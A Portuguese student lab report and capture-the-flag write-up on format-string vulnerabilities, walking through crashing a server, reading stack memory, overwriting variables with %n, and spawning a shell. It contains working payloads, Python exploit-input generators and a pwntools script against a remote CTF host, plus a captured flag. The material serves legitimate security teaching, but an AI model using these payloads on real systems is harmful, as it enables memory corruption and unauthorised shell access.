 Na tarefa desta semana é nos dado um script de python que facilita a geração de strings e um servidor que corre um programa com uma vunerabilidade de formato de string.
# Task 1
Para crashar o programa basta mandar para uma série de "%s", com o comando ```echo %s%s%s%s | nc 10.9.0.5 9090```. Neste caso os "%s" vão fazer com o que o servidor procure acima do endereço de format string na direção oposta à que a stack cresce, só parando quando acabar de encontrar 4 0x0 (que equivale ao carácter ASCII '\0') ou aceder a um lugar de memória invalido causando um segmentation fault que foi o que ocorreu neste caso.

![task1](Images/LB6-T1.png) 

Podemos verificar que o programa crashou, pois não imprimiu a string ```(^_^)(^_^)  Returned properly (^_^)(^_^)```.

# Task 2 
## Task 2A
A task 2A pede para imprimir os dados na stack e ainda descobrir onde na stack começa o nosso input. Para imprimir conteúdo na stack basta passar um format identifier como ```%x``` ou ```%p```, neste caso foi usado o ```%08x```. Para descobrir onde o nosso input começa na stack foi passado ao servidor em hexadecimal o valor 0xbbbbbbbb, uma string ```"AAAA"``` (que em hexadecimal corresponde 0x41414141) e 70 vezes a string ```"%08x|"```.

![task2a](Images/LB6-T2A.png)

Mudando os números de ```"%08x|"``` que imprimimos, descobrimos o início do nosso input que começa na 64ª posição e pode ser acedido diretamente com o format identifier ```"%64$x"``` que imprime o 64ª endereço que encontra.

## Task 2B
A task 2B pede para imprimir a string secret message, sendo que já é providenciado pelo servidor o endereço 0x080b4008 que corresponde ao endereço da mesma. Para executar esta tarefa basta passar como input o endereço 0x080b4008 seguido do format indentifier ```"%64$s"``` que imprime a string que lê do endereço dado no início do input.

![task2b](Images/LB6-T2B.png)

# Task 3
## Task 3A
A task 3A pede para alterar o valor da variável target, sendo que já é providenciado pelo servidor o endereço 0x080e5068 que corresponde ao endereço da variável. Como não é especificado o número que devemos atribuir ao target foi escolhido 42, que em hexadecimal corresponde a 0x0000002a. Para fazer esta tarefa é usado um método muito similar à Task 2B, só que, em vez do format identifier ```%s``` que lê em formato string o endereço fornecido é usado o ```%n``` que escreve para o endereço fornecido o número de bytes lido. Como input será fornecido o endereço 0x080e5068 e ```%38x%64$n``` que vai escrever 42 para o endereço 0x080e5068. O ```38``` presente no format string ```%38x``` faz com que se o resultado obtido ocupar menos de 38 bytes então adiciona espaços até o format string ocupar 38 bytes.

![task 3a](Images/LB6-T3A.png)

Como podemos ver a variável target foi alterada de 0x11223344 para 0x0000002a (que corresponde a 42 em decimal).
## Task 3B
A task 3B pede para escrever 0x5000 (que na sua forma decimal corresponde a 20480) na variavel target. Para fazer esta tarefa foi usado o mesmo metodo que na Task 3A só que foi alterado o preenchimento de 38 para 20476 (pois o endereço do target já ocupa 4 bytes).

![task 3a](Images/LB6-T3B.png)

build-string.py - Ficheiro usado para gerar o input da task 3B
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%20476x%64$n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

## Task 3C
A task 3c envolve mudar a variavel target para 0xaabbccdd. Para executar esta tarefa é dado como input 4 endereços em que o 1 corresponde ao endereço do primeiro byte da variavel target e os outros 3 correspondem aos restantes bytes da variavel target, de seguida passamos a string ```"%153x %67$hhn %15x %66$hhn %15x %65$hhn %15x %64$hhn"``` que vai modificar os bytes da variavel target os valores dd cc bb aa respetivamente, mas, depois por causa da arquitetura little endian a variavel target vai ficar com o valor 0xaabbccdd.

![task2b](Images/LB6-T3C.png)

build-string2.py - Ficheiro usado para gerar o input da task 3C
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

offset = 0
number  = 0x080e5068
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+1
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+2
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+3
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

s = "%153x %67$hhn %15x %66$hhn %15x %65$hhn %15x %64$hhn"
fmt  = (s).encode('latin-1')
content[offset:offset+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
# CTF Semana 6 
## Desafio 1

Para este desafio foi usado o gdb para verificar que a string flag se encontrava no endereço 0x0804c060 e que o endereço do nosso input se encontra na ultima posição da stack. Com esta informação construimos a string "\08\xc0\x04\x08%1$s\n". Como output obtivemos a flag pretendida que foi flag\{dbaa462d98fa9419e4a01fd24eecfdde\}

ctf6.py - Ficheiro usado para construir a string
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 32
content = bytearray(0x0 for i in range(N))

offset = 0
# This line shows how to store a 4-byte integer at offset 0
number  = 0x0804c060
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

s = "|%1$x|%1$s\n"
fmt  = (s).encode('latin-1')
content[offset:offset+len(fmt)] = fmt
offset += len(fmt)

with open('ctf6.txt', 'wb') as f:
  f.write(content)
```
## Desafio 2
Para o desafio 2 alteramos o fluxo normal do programa ativando um if statemente que normalmente não seria ativo. O if statement em questão executava o comando `system("/bin/bash")` e era ativado caso o valor de uma variável `key` fosse igual a 48 879 (ou 0xbeef em hexadecimal). 

Começamos por arranjar o endereço da variável key no gdb que correspondia a `0x0804c034`, em seguida verificamos que o endereço do input se encontrava no fim da stack podendo ser acedido com o format string `1$`, para mudar a variável usamos o format string `%n` antecedido por 48 879 bytes, finalmente para criar os 48 879 bytes necessários usamos o format string `%1$48875x` (pois, o endereço da variável já ocupa 4 bytes).

Como resultado final obtivemos a string `\x34\xc0\x04\x08%1$48875x%1$n` que quando introduzido no servidor abriu uma bash que foi usada para ler o flag.txt.

![CTF6D2](Images/CTF6-D2.png) 

ctf6D2.py 
```
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"There is nothing to see here...")
payload = (0x0804c034).to_bytes(4,byteorder='little')
payload += b"%1$48875x%1$n"
p.sendline(payload)
p.interactive()
```

